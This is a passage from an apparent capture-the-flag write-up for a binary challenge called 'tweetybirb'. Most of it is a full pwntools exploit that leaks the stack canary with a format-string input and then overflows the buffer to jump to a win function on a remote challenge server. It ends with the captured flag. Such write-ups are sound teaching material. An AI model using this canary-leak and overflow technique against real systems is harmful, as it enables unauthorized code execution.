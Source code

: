 Since it works, lets test on remote server by adding host, port and replacing `s = process("./tweetybirb")` to `s = remote(host, port)`
```python
from pwn import *

win = 0x00000000004011db
ret = 0x0000000000401272

offset = 72

host = "143.198.184.186"
port = 5002

# s = process("./tweetybirb")
s = remote(host, port)

print(s.recvline().decode())

s.sendline(b"%15$p")

canary = int(s.recvline().decode(), 16)
log.info("Canary: {}".format(hex(canary)))
print(s.recvline().decode())

payload = b"A"*offset
payload += p64(canary)
payload += p64(ret)
payload += p64(win)

s.sendline(payload)

print(s.recvall())

s.close()
```

Now all we need to do is just run the program!

![](img/tweetybirb.png)

Flag: `kqctf{tweet_tweet_did_you_leak_or_bruteforce_..._plz_dont_say_you_tried_bruteforce}`